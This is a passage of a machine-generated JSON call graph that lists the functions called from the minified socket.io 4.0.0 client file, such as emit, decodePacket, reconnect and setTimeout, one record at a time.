"static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "doOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "doClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decodePacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasBinary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodeAsString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodeAsBinary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "stringify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "deconstructPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodeAsString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decodeString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "takeBinaryData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "finishedReconstruction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconstructPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "finishedReconstruction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnectionAttempts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnectionDelay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnectionDelayMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "randomizationFactor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnectionDelayMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "randomizationFactor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "timeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setMin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setJitter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onopen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "maybeReconnectOnOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "_close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "_close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "duration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onreconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "poll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "doPoll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "decodePayload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "poll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encodePayload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "doWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "subEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onopen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "_packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "auth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onevent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "ondisconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitBuffered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "emitEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onclose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "_destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "onclose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "isView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.0.0.min.js", 